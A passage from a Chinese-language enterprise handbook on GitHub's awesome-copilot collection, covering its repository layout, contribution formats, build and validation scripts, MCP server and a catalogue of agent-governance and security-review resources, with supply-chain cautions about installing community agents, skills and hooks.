  - [14.2 Copilot Agent 如何使用 MCP](#142-copilot-agent-如何使用-mcp)
  - [14.3 MCP 與 Skill／Plugin 的差異](#143-mcp-與-skillplugin-的差異)
  - [14.4 各 Client 的設定位置](#144-各-client-的設定位置)
  - [14.5 .vscode/mcp.json 範例](#145-vscodemcpjson-範例)
  - [14.6 Web Application 開發常用 MCP 清單](#146-web-application-開發常用-mcp-清單)
  - [14.7 MCP Server 信任邊界與網域控管](#147-mcp-server-信任邊界與網域控管)
  - [14.8 MCP 的企業層強制治理：Allowlist 與 Denylist](#148-mcp-的企業層強制治理allowlist-與-denylist)
    - [14.8.1 兩個鍵的合成語意（最容易誤解的地方）](#1481-兩個鍵的合成語意最容易誤解的地方)
    - [14.8.2 三種比對子（每筆項目只能擇一）](#1482-三種比對子每筆項目只能擇一)
    - [14.8.3 URL 正規化：官方內建的繞過防護（官方已實作）](#1483-url-正規化官方內建的繞過防護官方已實作)
    - [14.8.4 企業導入建議（建議架構）](#1484-企業導入建議建議架構)

**Part III：企業實戰案例**

- [15. Web Application 開發實戰](#15-web-application-開發實戰)
  - [15.1 技術堆疊](#151-技術堆疊)
  - [15.2 開發流程](#152-開發流程)
  - [15.3 各階段對應的客製化資源](#153-各階段對應的客製化資源)
- [16. 逆向工程實戰](#16-逆向工程實戰)
  - [16.1 情境輸入](#161-情境輸入)
  - [16.2 分析流程](#162-分析流程由-reverse-engineering-agent-依-reverse-engineering-skill-執行)
  - [16.3 最終產出](#163-最終產出)
  - [16.4 重要限制（重申）](#164-重要限制重申)
- [17. Framework Migration 實戰](#17-framework-migration-實戰)
  - [17.1 案例：Spring Boot 3.x → Spring Boot 4.x](#171-案例spring-boot-3x--spring-boot-4x)
  - [17.2 各階段使用的客製化資源](#172-各階段使用的客製化資源)
  - [17.3 六大機制如何共同完成 Migration](#173-六大機制如何共同完成-migration)
- [18. AI-Assisted SDLC](#18-ai-assisted-sdlc)
  - [18.1 全生命週期圖](#181-全生命週期圖)
  - [18.2 awesome-copilot 在每個階段的介入方式](#182-awesome-copilot-在每個階段的介入方式)
- [19. Spec-Driven Development 整合](#19-spec-driven-development-整合)
  - [19.1 整合流程](#191-整合流程)
  - [19.2 避免 AI Agent 擴權的防護措施](#192-避免-ai-agent-擴權的防護措施)

**Part IV：治理、安全與導入**

- [20. 企業級 AI Coding Governance](#20-企業級-ai-coding-governance)
  - [20.1 Governance 模型](#201-governance-模型)
  - [20.2 安全風險類別](#202-安全風險類別)
  - [20.3 Governance Workflow](#203-governance-workflow)
  - [20.4 已知威脅情資（2026，Source-confirmed）](#204-已知威脅情資2026source-confirmed)
  - [20.5 企業級集中管控：managed-settings.json](#205-企業級集中管控managed-settingsjson)
  - [20.6 Agent Sandboxing：OS 層級的最後一道防線](#206-agent-sandboxingos-層級的最後一道防線)
  - [20.7 權限模型：四種核准層級與 Agent 網路過濾](#207-權限模型四種核准層級與-agent-網路過濾)
    - [20.7.1 四種權限層級（官方已實作）](#2071-四種權限層級官方已實作)
    - [20.7.2 Agent 網路過濾與瀏覽器工具政策（官方已實作）](#2072-agent-網路過濾與瀏覽器工具政策官方已實作)
    - [20.7.3 企業 Plugin 政策設定鍵（官方已實作）](#2073-企業-plugin-政策設定鍵官方已實作)
- [21. 社群資源安全評估 Checklist](#21-社群資源安全評估-checklist)
  - [21.1 Awesome Copilot Resource Security Checklist](#211-awesome-copilot-resource-security-checklist)
  - [21.2 Risk Level 與對應處理](#212-risk-level-與對應處理)
- [22. 企業團隊導入方法](#22-企業團隊導入方法)
  - [22.1 六階段導入模型](#221-六階段導入模型)
  - [22.2 各階段內容](#222-各階段內容)
- [23. 團隊標準目錄與資源歸屬](#23-團隊標準目錄與資源歸屬)
  - [23.1 建議標準目錄](#231-建議標準目錄)
  - [23.2 資源歸屬建議](#232-資源歸屬建議)

**Part V：Catalog、Prompt 與 Tutorial**

- [24. Agent／Skills／Instructions Catalog](#24-agentskillsinstructions-catalog)
  - [24.1 Agent Catalog](#241-agent-catalog)
  - [24.2 Skills Catalog](#242-skills-catalog)
  - [24.3 Instructions Catalog](#243-instructions-catalog)
  - [24.4 內建 Agent 對照：哪些不必自建（第四版新增）](#244-內建-agent-對照哪些不必自建第四版新增)
- [25. 實戰 Prompt 範例集](#25-實戰-prompt-範例集)
  - [25.1 Reverse Engineering](#251-reverse-engineering)
  - [25.2 Framework Upgrade](#252-framework-upgrade)
  - [25.3 Security Review](#253-security-review)
  - [25.4 Architecture Review](#254-architecture-review)
  - [25.5 Web Application Development](#255-web-application-development)
- [26. 完整實戰 Tutorial（20 項）](#26-完整實戰-tutorial20-項)
  - [26.1 精選 Tutorial 完整逐步示範](#261-精選-tutorial-完整逐步示範)

**Part VI：維運、比較與總結**

- [27. Troubleshooting](#27-troubleshooting)
  - [27.1 常見問題對照表](#271-常見問題對照表)
  - [27.2 Agent Debug Panel 與標準診斷流程](#272-agent-debug-panel-與標準診斷流程)
- [28. 維護策略](#28-維護策略)
  - [28.1 版控與變更流程](#281-版控與變更流程)
  - [28.2 Resource Lifecycle](#282-resource-lifecycle)
- [29. Upgrade Playbook](#29-upgrade-playbook)
  - [29.1 Awesome Copilot Upgrade Playbook](#291-awesome-copilot-upgrade-playbook)
  - [29.2 每個步驟的重點](#292-每個步驟的重點)
- [30. Agent 成效 KPI](#30-agent-成效-kpi)
  - [30.1 KPI 清單](#301-kpi-清單)
  - [30.2 KPI 使用原則](#302-kpi-使用原則)
- [31. AI Agent Quality Gate](#31-ai-agent-quality-gate)
  - [31.1 七道 Gate](#311-七道-gate)
  - [31.2 各 Gate 定義](#312-各-gate-定義)
- [32. awesome-copilot／Copilot 與其他 AI Coding Agent 比較](#32-awesome-copilotcopilot-與其他-ai-coding-agent-比較)
  - [32.1 重要提醒](#321-重要提醒)
- [33. 與 Claude Code 概念映射](#33-與-claude-code-概念映射)
  - [33.1 相同概念、不同實作](#331-相同概念不同實作)
  - [33.2 不可直接複製的部分](#332-不可直接複製的部分)
  - [33.3 如何建立跨 Agent 的標準](#333-如何建立跨-agent-的標準)
  - [33.4 VS Code 原生 Claude／Codex Harness 對跨工具標準的影響](#334-vs-code-原生-claudecodex-harness-對跨工具標準的影響)
  - [33.5 Plugin 分發層的跨工具收斂（第四版新增）](#335-plugin-分發層的跨工具收斂第四版新增)
- [34. Enterprise Awesome Copilot Standard](#34-enterprise-awesome-copilot-standard)
  - [34.1 Naming Convention](#341-naming-convention)
  - [34.2 Documentation Standard](#342-documentation-standard)
- [35. 團隊導入方案分級](#35-團隊導入方案分級)
  - [35.1 各等級進階條件（建議架構）](#351-各等級進階條件建議架構)
- [36. 30/60/90 天導入計畫](#36-306090-天導入計畫)
  - [36.1 Day 1-30：Learning + Pilot](#361-day-1-30learning--pilot)
  - [36.2 Day 31-60：Standardization + Agent Library](#362-day-31-60standardization--agent-library)
  - [36.3 Day 61-90：Governance + Enterprise Rollout](#363-day-61-90governance--enterprise-rollout)
- [37. Cheat Sheet](#37-cheat-sheet)
  - [37.1 常用 CLI](#371-常用-cli)
  - [37.2 常用目錄](#372-常用目錄)
  - [37.3 Agent（.agent.md）最小範例](#373-agentagentmd最小範例)
  - [37.4 Skill（SKILL.md）最小範例](#374-skillskillmd最小範例)
  - [37.5 Instructions 最小範例](#375-instructions-最小範例)
  - [37.6 Plugin（plugin.json）最小範例](#376-pluginpluginjson最小範例)
  - [37.7 Hook 最小範例](#377-hook-最小範例)
  - [37.8 MCP 最小範例](#378-mcp-最小範例)
  - [37.9 Troubleshooting 速查（詳見第 27 章）](#379-troubleshooting-速查詳見第-27-章)
  - [37.10 Security Checklist 速查（詳見第 21 章）](#3710-security-checklist-速查詳見第-21-章)
- [38. FAQ](#38-faq)
- [39. Conclusion](#39-conclusion)
- [40. References](#40-references)
  - [40.1 awesome-copilot 相關](#401-awesome-copilot-相關)
  - [40.2 GitHub Copilot 官方文件](#402-github-copilot-官方文件)
  - [40.3 VS Code 官方文件](#403-vs-code-官方文件)
  - [40.4 GitHub Changelog](#404-github-changelog)
  - [40.5 開放規範與跨產業標準](#405-開放規範與跨產業標準)
  - [40.6 2026 年資安威脅情資（呼應第 20.4 節）](#406-2026-年資安威脅情資呼應第-204-節)
  - [40.7 技術堆疊版本參考](#407-技術堆疊版本參考呼應本手冊情境範例引用的版本聲明)
  - [40.8 VS Code Release Notes 版本對照（第四版新增）](#408-vs-code-release-notes-版本對照第四版新增)
- [41. 全書 Checklist 總覽](#41-全書-checklist-總覽)
  - [41.1 安裝與導入 Checklist](#411-安裝與導入-checklist)
  - [41.2 安全 Checklist](#412-安全-checklist)
  - [41.3 治理 Checklist](#413-治理-checklist)
  - [41.4 新人快速上手 Checklist](#414-新人快速上手-checklist)
<!-- TOC-AUTO-END -->

---

## 1. Executive Summary：5 分鐘理解 awesome-copilot

### 1.1 awesome-copilot 是什麼

`github/awesome-copilot` 是託管在 **GitHub 官方 org** 底下、由**社群貢獻**維護的資源精選集，收錄可直接安裝到 GitHub Copilot 的 Custom Agents（`.agent.md`）、Instructions（`*.instructions.md`）、Agent Skills（`SKILL.md`）、Plugins（`plugin.json`）與 Cookbook 範例（官方已實作／Source-confirmed）。它不是 Copilot 的官方規格文件，而是「精選過的實例庫」——類似一座已經有人幫你篩過、分類好的素材倉庫，讓你不用從零開始寫客製化資源。

### 1.2 為什麼值得使用

- **不用重造輪子**：500+ 貢獻者已經產出數百個 Agent／Skill／Instructions，涵蓋主流語言、框架、雲端平台與開發情境。
- **格式與官方同步**：awesome-copilot 的資料夾結構（`agents/`、`instructions/`、`skills/`、`plugins/`、`hooks/`）**直接對應** GitHub Copilot 官方客製化機制的五個分層，學會一個就等於學會另一個。
- **可作為企業標準的起點**：與其讓每個團隊各自摸索 `.agent.md`／`SKILL.md` 該怎麼寫，不如先研究 awesome-copilot 已驗證過的範例，再依企業需求調整。

### 1.3 可以解決什麼問題

| 問題 | awesome-copilot 如何協助 |
|---|---|
| 團隊不知道 Custom Instructions／Agents／Skills 怎麼寫 | 提供大量已驗證格式的真實範例可參考、可直接安裝 |
| 缺乏 Code Review、Security Review 等專業 Agent | `agents/` 資料夾收錄多種專業角色 Agent 範例 |
| 需要針對特定語言/框架的教練型指令 | `instructions/` 收錄依 `applyTo` glob 套用的路徑特定規則 |
| 需要打包一整組能力給團隊安裝 | `plugins/` 提供可用 `copilot plugin install` 一次安裝的能力組合 |
| 需要在特定事件自動執行檢查 | `hooks/` 提供 `.github/hooks/*.json` 的生命週期自動化範例 |

### 1.4 如何協助 AI Agent 開發

awesome-copilot 示範了如何用官方驗證的 `.agent.md`、`SKILL.md`、`plugin.json`、Hooks JSON 格式，組合出具備角色分工、工具授權、生命週期自動化的 Agent 平台雛形——這正是本手冊 Part II、Part III 要示範的「企業 AI Agent Development Platform」建置方法。

### 1.5 如何協助 Web Application 開發

透過 Custom Agents＋Skills＋Instructions 的組合（第 15 章案例），可以讓 Copilot 在企業 Vue 3 + Spring Boot 技術堆疊下，依循固定的架構規範、Coding Standard 與測試策略產出程式碼，而不是每次都要重新在 Prompt 中重述規則。

### 1.6 如何協助 Legacy Reverse Engineering

第 16 章示範如何設計一個 `reverse-engineering` Skill，引導 Copilot 依固定步驟（Repository Discovery → Dependency Analysis → Database Analysis → Business Rule Extraction → Modernization Recommendation）系統化地分析老舊 Java/JSP/Servlet 系統，避免每次分析結果格式不一致。

### 1.7 如何協助 Framework Migration

第 17 章示範 Spring Boot 3.x → 4.x 的 Migration 案例，說明如何用 Instructions 定義升級規則、用 Skill 封裝分析流程、用 Agent 執行變更、用 Hook 在變更前後自動跑測試與安全掃描。

### 1.8 如何協助 Security

第 8 章的 Security Review Skill 範例，以及第 20-21 章的 Governance／安全評估 Checklist，說明如何在導入社群資源前做好供應鏈風險把關，並讓 Security Review 成為開發流程的固定關卡而非事後補救。

### 1.9 如何導入企業

第 22-23 章與第 35-36 章提供從 Awareness → Pilot → Standardization → Governance 的六階段導入方法，以及具體的 30/60/90 天計畫，讓企業不是「一次全面開放」，而是分階段、可控地擴大使用範圍。

### 1.10 最推薦的使用方式

> **先讀官方規格，再挑 awesome-copilot 範例，最後才寫自己的企業版本。**
> 順序反過來——直接複製社群範例卻不懂官方規格——是導入失敗與資安風險最常見的根因。

---

## 2. awesome-copilot 是什麼：官方生態系定位

### 2.1 Repository 基本事實

| 項目 | 內容 | 來源標示 |
|---|---|---|
| Owner | `github`（GitHub 官方組織帳號） | 官方已實作 |
| 定位（README 原文，2026-08-27 複查） | "A community-created collection of custom agents, instructions, skills, hooks, workflows, and plugins to supercharge your GitHub Copilot experience." | Source-confirmed |
| License | MIT | 官方已實作 |
| Topics | `agent-skills`、`agents`、`ai`、`awesome`、`custom-agents`、`github-copilot`、`hacktoberfest`、`prompt-engineering` | Source-confirmed |
| Stars／Forks | 約 **38.5k／4.9k**（2026-08-31 第四版複查） | Source-confirmed |
| 貢獻者數 | 494 位（2026-08-31 複查，README 底部 Contributors 表格；該表格由自動化流程於**每週日 UTC 03:00** 重新產生） | Source-confirmed |
| 語言組成（2026-08-31 新增） | JavaScript 45.2%、Python 37.1%、HTML 5.6%、CSS 2.9%、Astro 2.8%、TypeScript 2.3%、Other 4.1% | Source-confirmed |
| 頂層目錄（2026-08-31 複查） | `.github/`、`.schemas/`、`.vscode/`、`agents/`、`cookbook/`、`docs/`、`eng/`、`extensions/`、`hooks/`、`instructions/`、`plugins/`、**`scripts/`**、`skills/`、`website/`、`workflows/` | Source-confirmed |
| 頂層檔案 | `AGENTS.md`、`README.md`、`CONTRIBUTING.md`、`CODEOWNERS`、`CODE_OF_CONDUCT.md`、`SECURITY.md`、`SUPPORT.md`、`LICENSE`、`context7.json`、`mcp.json`、`package.json` | Source-confirmed |
| 最後更新 | 持續活躍維護（查證當下最後 push 為查證當日） | Source-confirmed |

> ⚠️ **注意 `docs/` 與 `eng/` 常被漏列**：常見的中文介紹文只列出六到八個「資源資料夾」，但 `docs/`（產生式資源索引）與 `eng/`（驗證與建置腳本）才是企業自建同等機制時最值得參考的兩個目錄（詳見第 2.8 節）。

> **第四版修正：`scripts/` 目錄**。第三版依 Contents API 實測未列出 `scripts/`，並將其視為「AGENTS.md 目錄樹與實際們庫的差異」。2026-08-31 複查確認：**`scripts/` 確實存在**（AGENTS.md 的 Repository Structure 区塊也明列「`├── scripts/  # Utility scripts`」），先前的「差異」並不存在。這也是一個提醒：**單一快照式的 API 實測不能當作長期事實**，企業內部文件引用第三方們庫結構時，應註明查證日期並定期重驗。

### 2.2 Community-created resources 的概念

awesome-copilot 收錄的每一份 Agent、Skill、Instructions、Plugin、Hook，都是由社群貢獻者依 `CONTRIBUTING.md` 規範的格式提交、經 PR review 後合併進主分支。這代表：

- 內容品質**參差不齊**，取決於個別貢獻者的專業程度與維護意願。
- 內容**不是 GitHub 官方對 Copilot 行為的保證**——它只是「範例」，不是「規格」。
- 內容會隨時間**變動或被移除**（本手冊查證時就發現 `chatmodes/`、`prompts/`、`collections/` 三個舊資料夾已被整併移除）。

> ⚠️ **官方生態系與社群貢獻的關係**：GitHub Copilot 的官方規格永遠以 `docs.github.com` 與 `code.visualstudio.com` 為準；awesome-copilot 只是「託管在官方 org 下的社群精選集」，這一點容易被誤解為「官方認證內容」，撰寫企業內部文件時務必說清楚這個區別。

### 2.3 Awesome Copilot Website、Learning Hub、llms.txt

| 資源 | 說明 | 狀態 |
|---|---|---|
| 官網 | `https://awesome-copilot.github.com/`，提供依類別瀏覽（Agents／Instructions／Skills／Plugins／Canvas Extensions／Learning Hub／Contributors）與每個項目的「Copy Install」按鈕 | Source-confirmed |
| Learning Hub | 官網導覽列的教學文章區，已分為 Getting Started／Fundamentals／Reference／Hands-on 四區（清單見下方） | Source-confirmed |
| `llms.txt` | `https://awesome-copilot.github.com/llms.txt`，machine-readable 索引檔，開頭聲明："A community-driven collection of custom agents, instructions, and skills to enhance GitHub Copilot experiences across various domains, languages, and use cases." | Source-confirmed |

**Learning Hub 現行課程地圖（2026-08-28 複查，Source-confirmed）**

| 區塊 | 內容 | 企業導入時的用途 |
|---|---|---|
| Getting Started | GitHub Copilot app（桌面程式，可平行指揮多個 Agent、使用隔離 worktree）、Using Automations in Copilot app、Working with Canvas Extensions（`/create-canvas`） | 評估是否導入「多 Agent 平行作業」工作模式 |
| Getting Started（Terminal） | Copilot CLI for Beginners（含 00-07 七單元與 YouTube 影片系列）、**Advanced GitHub Copilot CLI**（以 legacy multi-stack 應用為題材，涵蓋 AI 基礎建設、Hooks、LSP／MCP 整合、Plugin） | Advanced 課程的情境與本手冊第 16-17 章（逆向工程、Framework Migration）高度重疊，建議列為 Pilot 階段指定教材 |
| Getting Started（Workshop） | Hands-on with GitHub Copilot's agents：以共同的 Tailspin Toys backlog 跨**四種 harness**（VS Code／Copilot CLI／Copilot app／cloud agent）實作 | 驗證企業客製化資源在不同 harness 的行為差異（見第 6.6 節） |
| Fundamentals | What are Agents, Skills, and Instructions、Agents and Subagents、Understanding Copilot Context、Copilot Configuration Basics、Defining Custom Instructions、Creating Effective Skills、Building Custom Agents、Understanding MCP Servers、Automating with Hooks、Agentic Workflows、Using the Copilot Coding Agent、Installing and Using Plugins、Before/After Customization Examples | Phase 1 Awareness（第 22 章）的現成教材清單 |
| Reference | GitHub Copilot Terminology Glossary | 解決企業內部術語不一致（尤其 coding agent → cloud agent 這類更名） |
| Hands-on | Cookbook（可直接使用的範例與 recipe） | 對應 Repository 的 `cookbook/` 目錄 |

> ⚠️ 各資源分類的精確數量（例如「175 個 Agent」）在查證當下**無法取得可靠且一致的官方統計**（不同來源數字有落差）。企業內部文件若要引用數量，建議在撰寫當天重新用官方網站或 API 清點，而不是沿用本手冊或任何第三方部落格的舊數字（官方目前沒有找到足夠資料確認此功能）。

### 2.4 Resource Discovery 與 Marketplace

- **網站瀏覽**：依五大分類（Agents/Instructions/Skills/Plugins/Canvas Extensions）加上 Learning Hub 瀏覽，每項資源提供「Copy Install」按鈕。
- **CLI Marketplace**：GitHub Copilot CLI 具備 Plugin Marketplace 機制，awesome-copilot **已是官方預設註冊的來源之一**（另一個是 `copilot-plugins`），新版 CLI 可直接 `copilot plugin install <name>@awesome-copilot`，舊版才需先 `copilot plugin marketplace add github/awesome-copilot`（詳見第 12 章）。
- **awesome-copilot MCP Server**：Repository 自帶一台 MCP Server，讓 Agent 能直接從庫內搜尋與安裝資源，**執行需要 Docker**（詳見第 2.8 節）。
- **`docs/README.*.md`**：CI 自動產生的完整資源索引（Agents／Instructions／Skills／Plugins／Hooks／Workflows 各一份），適合離線盤點或實作企業 Catalog 時參考。
- **llms.txt**：供 AI Agent／LLM 工具直接讀取索引，快速了解倉庫內容結構，不需要人工爬取整個 Repository。

### 2.5 社群貢獻模式

依官方 `CONTRIBUTING.md` 與 `AGENTS.md`（Source-confirmed，2026-08-28 複查），每種資源類型都有固定的提交格式與（部分類型提供的）鷹架指令：

| 資源類型 | 路徑慣例 | 檔名慣例 | 必要 Frontmatter／檔案 | 鷹架／驗證指令 | 貢獻類型標記 |
|---|---|---|---|---|---|
| Instructions | `instructions/` | `*.instructions.md`（小寫連字號） | `description`（須以**單引號**包住）**與 `applyTo`（兩者皆必填）** | — | 🧭 |
| Agents | `agents/` | `*.agent.md` | `description`（單引號）必填；`name` 須為**人類可讀名稱**（如 `Address Comments`，非 `address-comments`）；`model` 強烈建議、`tools` 建議 | — | 🎭 |
| Skills | `skills/<name>/` | 資料夾 | `SKILL.md`；`name` 須與資料夾同名、小寫連字號、**≤ 64 字**；`description` 單引號、**10–1024 字**；單一 asset < 5MB | `npm run skill:create -- --name <n>`／`npm run skill:validate` | 🧰 |
| Plugins | `plugins/<name>/` | 資料夾 | `plugin.json`（`$schema`／`name`／`description`／`version` 必填） + `README.md`；內容以宣告式 `extensions` 組合（見 11.3） | `npm run plugin:create -- --name <n>`／`npm run plugin:validate` | 🎁 |
| Hooks | `hooks/<name>/` | 資料夾 | `README.md`（frontmatter：`name`／`description`／`tags`） + `hooks.json`（格式與官方 `.github/hooks/NAME.json` 相同，見 13.4） | — | — |
| Agentic Workflows | `workflows/` | `*.md` | `name`／`description`／`on`／`permissions`／`safe-outputs`；**只收 `.md`**，`.yml`／`.yaml`／`.lock.yml` 會被 CI 擋下 | `gh aw compile` | ⚡ |
| Canvas Extensions | `extensions/<id>/` + `plugins/<id>/` | `extension.mjs` + `plugin.json` | `extensions.com.github.copilot.logo` 必須正好是 `"assets/preview.png"`；**不可**新增 `canvas.json` | `npm run plugin:validate` | — |

**貢獻流程上容易踩到的坑（Source-confirmed）**：

- PR **必須針對 `main` 分支**；從 `staged` 分支開出的 PR 可能直接被退回。
- 提交前必須執行 `bash eng/fix-line-endings.sh` 將 CRLF 轉為 LF（Windows 開發者特別容易忽略）。
- 修改資源後需執行 `npm ci` → `npm run build`（或 `npm start`）重新產生 README 與 `docs/` 索引，否則 CI 會失敗。
- **若是 AI Agent 代為提交的 PR，標題需附上 `🤖🤖🤖`** 以走快速合併通道——這是目前少數明文規定「AI 產出須自我揭露」的實際例子，企業制定內部 PR 規範時可直接參考這個做法。
- `marketplace.json` 由 `npm run plugin:generate-marketplace` 自動產生於 `.github/plugin/marketplace.json`，**不可手改**。
- Agentic Workflow 的本機驗證指令為 `gh aw compile --validate`；CONTRIBUTING.md 進一步建議加上 **`--no-emit`**（例：`gh aw compile --validate --no-emit daily-issues-report.md`），**只驗證不產出**，避免本機多出不該 commit 的 `.lock.yml`。

#### AGENTS.md 的 Pre-commit Checklist（第四版新增，Source-confirmed）

awesome-copilot 的 `AGENTS.md` 內附有一份給貢獻者（含 AI Agent）的提交前檢查清單：

- [ ] Run `npm install`（或 `npm ci`）to install dependencies
- [ ] Run `npm run build` to generate the updated README.md
- [ ] Run `bash eng/fix-line-endings.sh` to normalize line endings
- [ ] Verified that all new files have proper front matter
- [ ] Tested that your contribution works with GitHub Copilot
- [ ] Checked that file names follow the naming convention

另外 `AGENTS.md` 還含一份 **Code Review Checklist**，逐項列出 Instructions、Agent、Skill、Hook、Workflow、Plugin 各自的審查項目（例如第 11.3 節引用的 `mcp.json` `$schema` 規則就出自這份清單）。

> **企業可直接移植的做法（建議架構）**：把這兩份清單改寫成企業自己的 **PR Template**。重點不在於照抄項目，而在於它展示了一個關鍵模式：**把審查規則寫進 `AGENTS.md`，讓 AI Agent 自己先跑一遍**。這比只把規則寫在 Wiki 裡有效得多——因為 `AGENTS.md` 會被 Agent 實際讀到（見第 7 章）。

#### 兩個值得追蹤的官方討論串（第四版新增）

| 來源 | 主旨 | 對企業的參考價值 |
|---|---|---|
| **Issue #1368**「Track migration to marketplace published branch and main source branch」 | 追蹤們庫從「`staged` → `main` 發佈模式」遷移至「`main` 為人類撰寫的來源分支、`marketplace` 為發佈／實體化分支」的兩階段計畫（已於 2026-06-25 完成） | 這正是第 11.3 節「實體化」機制的制度背景；企業若要自建 Plugin Marketplace，這個「來源分支／發佈分支分離」的架構值得直接沿用 |
| **Discussion #968**「Guidance for submissions involving paid services」 | 針對涉及付費或商業工具的貢獻提供指引：歡迎相關貢獻，但會評估內容是**行銷推廣**還是**實際技術幫助** | 企業內部 Catalog 同樣會遇到「某廠商送一套 Agent 進來」的情況；可直接借用這個判準寫進受理標準 |

**awesome-copilot 明文拒收的內容（"What We Don't Accept"，Source-confirmed）**：違反 Responsible AI 原則、繞過安全控制、協助惡意行為、利用模型弱點、產生有害內容、規避政策限制、只是重述模型本來就很強的能力而無實際加值、以及未經審查的遠端來源 Plugin。這份清單可直接改寫為企業自己的「AI 客製化資源受理標準」（對應第 20 章 Governance）。

### 2.6 如何挑選第三方 Agent／Skill／Plugin

企業導入前的最低限度檢查（詳見第 21 章完整 Checklist）：

1. **讀完整份內容**，不要只看 `description`。
2. 確認是否包含 Shell 指令、外部網路呼叫、對 Secret／環境變數的存取。
3. 確認貢獻者身份與最後更新時間，評估維護活躍度。
4. 若涉及 MCP Server，確認其權限範圍是否符合最小權限原則。
5. 先在沙盒/測試 Repository 安裝驗證，再推廣到正式專案。

### 2.7 安全性與供應鏈風險

> **安裝任何 Agent、Skill、Plugin、Hook 或 MCP Server 前，都必須先閱讀其內容、依賴、權限與執行行為。**
>
> awesome-copilot 是社群貢獻的資源集合，PR review 無法保證每一份資源都無害。Hooks 與 Plugins 尤其高風險，因為它們可以執行 Shell 指令；Skills 若綁定 `allowed-tools` 不當，也可能讓 Copilot 取得超出預期的工具存取權。詳見第 20-21 章的 Governance 與安全評估流程。

### 2.8 `docs/`、`eng/` 與 awesome-copilot MCP Server

這三項是大多數介紹文漏掉、但對企業自建相同機制最有參考價值的部分（Source-confirmed，2026-08-28 Contents API 與 `AGENTS.md` 複查）。

#### 產生式資源索引：`docs/README.*.md`

| 檔案 | 內容 | 規模參考 |
|---|---|---|
| `docs/README.agents.md` | 全部 Agent 的總表 | 約 230 KB |
| `docs/README.skills.md` | 全部 Skill 的總表 | 約 220 KB |
| `docs/README.instructions.md` | 全部 Instructions 的總表 | 約 186 KB |
| `docs/README.plugins.md` | 全部 Plugin（含外部 Plugin）總表 | 約 35 KB |
| `docs/README.hooks.md` | Hooks 說明與清單 | 約 3.4 KB |
| `docs/README.workflows.md` | Agentic Workflows 說明與清單 | 約 3.4 KB |

這些檔案**全部由 `npm run build` 自動產生，不可手改**。對企業的啟示：第 24 章的企業 Catalog **不應該手工維護**——應該把各資源的 frontmatter 當成唯一真相來源，由 CI 產生 Catalog，否則目錄與實際資源必然會隨時間脱節（這也是第 28 章維護策略的實作重點）。

#### 驗證與建置腳本：`eng/`

| 指令 | 用途 |
|---|---|
| `npm ci` | 安裝相依（鎖定版本） |
| `npm run build`／`npm start` | 重新產生 README 與 `docs/` 索引 |
| `npm run plugin:validate` | 驗證全部 `plugin.json`（含 Canvas Extensions） |
| `npm run plugin:generate-marketplace` | 產生 `.github/plugin/marketplace.json` |
| `npm run plugin:create -- --name <n>` | 建立新 Plugin 鷹架 |
| `npm run skill:validate`／`npm run skill:create -- --name <n>` | 驗證／建立 Skill |
| `bash eng/fix-line-endings.sh` | **提交前必跑**，CRLF → LF |
| `eng/external-plugin-validation.mjs` | 外部 Plugin 的**正規驗證器**（規則：`marketplace`／`publicSubmission`，見 11.5） |

> ⚠️ **企業對應做法（建議架構）**：把上表的「驗證指令」觀念搬到企業自己的客製化資源倉庫，在 CI 上強制執行 schema 驗證，可以預防大多數「Agent 沒出現」「Skill 沒觸發」類的問題（對應第 27 章 Troubleshooting 的前三項）。

#### awesome-copilot MCP Server

Repository 頂層的 `mcp.json` 定義了一台 **awesome-copilot 專用 MCP Server**，讓 Agent 可以直接從對話中搜尋並安裝庫內資源，而不需要人工到網站複製貼上。

- **前提條件：本機需安裝並啟動 Docker**（這是企業內部隱形的導入門檳：若開發者筆電禁止安裝容器執行環境，此路徑直接不可用）。
- 使用前仍須依第 21 章 Checklist 審查：它能「直接安裝資源」這件事本身就是一個需要治理的能力，不應該在未建立 Approved Catalog 前就對全團隊開放。
- 定位上它屬於第 3 章五層模型的「連接層（MCP）」，但服務的對象是「客製化資源本身」，而非一般的外部業務系統。

### 2.9 awesome-copilot 的 AI 供應鏈與 Agent 治理資源盤點

2026-08-28 複查 `llms.txt` 索引時發現，awesome-copilot 近一年新增了一整批**「治理 AI 本身」**的資源。這批資源與第 20-21 章（Governance、Security Review）高度相關，卻最容易被忽略——多數團隊只會搜尋「Java」「Vue」這類技術關鍵字，不會主動搜尋「governance」。以下為盤點結果（Source-confirmed，取自官網 `llms.txt` 的 Agents／Skills 清單）：

| 資源名稱 | 類型 | 官方描述重點（原文摘要） | 對應本手冊章節 |
|---|---|---|---|
| `trojan-skill-hunter` | Agent | 在 Agent／Skill／Instructions／Hook／MCP 設定**被合併、安裝或信任之前**，稽核其中是否藏有 prompt injection、tool poisoning、Unicode 隱寫、過度授權（excessive agency）；對應 OWASP Top 10 for LLM Applications 與真實 MCP 攻擊研究 | 第 21 章安全評估 |
| `agent-governance-reviewer` | Agent | 審查程式碼中缺少的治理控制，協助導入政策強制、信任評分、稽核軌跡 | 第 20 章 Governance |
| `doublecheck` | Agent | 三層驗證管線（自我稽核 → 來源查證 → 對抗式審查），產出附來源連結的結構化報告供人工複核 | 第 31 章 Quality Gate |
| `agent-owasp-compliance` | Skill | 依 **OWASP Agentic Security Initiative（ASI）Top 10** 檢查 Agent 系統，產出合規報告 | 第 20.2 節十類安全風險 |
| `agent-supply-chain` | Skill | 產生 SHA-256 完整性 manifest、驗證已安裝 Plugin 是否與發布版本一致、偵測被竄改或未追蹤的檔案、建立 dev → staging → production 的來源鏈 | 第 11.5 節 SHA 鎖定、第 21 章 |
| `agent-governance` | Skill | 為 Agent 系統加上政策式存取控制、語意意圖分類、信任評分、稽核軌跡、速率限制 | 第 20 章 |
| `security-review` | Skill | 以資安研究員視角追蹤資料流與元件互動的程式碼掃描 | 第 8.10 節（本手冊自建版）可對照 |
| `secret-scanning`、`dependabot`、`codeql` | Skill | GitHub Advanced Security 三大能力的設定與維運指引；兩者皆指向 **Advanced Security plugin（`advanced-security@copilot-plugins`）** 供 Agent 在 commit 前掃描 | 第 13 章 Hooks、第 21 章 |
| `threat-model-analyst`、`tm7-threat-model` | Skill | STRIDE-A 威脅模型分析（含增量比對）／產生 Microsoft Threat Modeling Tool `.tm7` 檔 | 第 21 章 |
| `verify-agent-action` | Skill | 在 Agent 執行高風險動作（部署、金鑰操作、資料變更）**之前**，審查核准封包是否與實際動作相符，偵測參數置換、重放、偽造證據 | 第 19.2 節防護措施 |
| `suggest-awesome-github-copilot-agents`／`-instructions`／`-skills` | Skill | 依當前 Repository 情境推薦 awesome-copilot 資源，**並標示已過期、需更新的既有資源** | 第 28 章維護策略 |

